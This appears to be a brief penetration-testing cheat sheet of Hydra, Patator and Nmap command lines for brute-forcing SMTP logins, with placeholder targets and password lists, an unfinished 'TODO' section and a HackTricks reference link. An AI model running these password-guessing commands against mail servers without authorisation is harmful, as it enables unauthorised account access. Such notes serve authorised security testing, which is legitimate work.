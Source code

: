 # SMTP

## 01 - Hydra

`$ hydra -U smtp`

`$ hydra -V -l <username> -P passwords.lst <IP> smtp`

`$ hydra -S -v -V -l <username> -P passwords.lst -s 587 <IP>`


## 02 - Patator

`$ patator smtp_login`

## 02 - Nmap

`$ nmap -p 25 --script smtp-brute --script-args smtp-brute.auth=<LOGIN | PLAIN | CRAM-MD5 | DIGEST-MD5 | NTLM>`

`$ nmap -p 25 --script smtp-brute --script-args smtp-brute.auth=LOGIN,userdb=users.lst,passdb=passwords.lst <IP>`

## 03 - Patator

TODO: Fill this info

+ smtp_login    : Brute-force SMTP

---
## References

- [Brute Force SMTP](https://book.hacktricks.xyz/brute-force#smtp)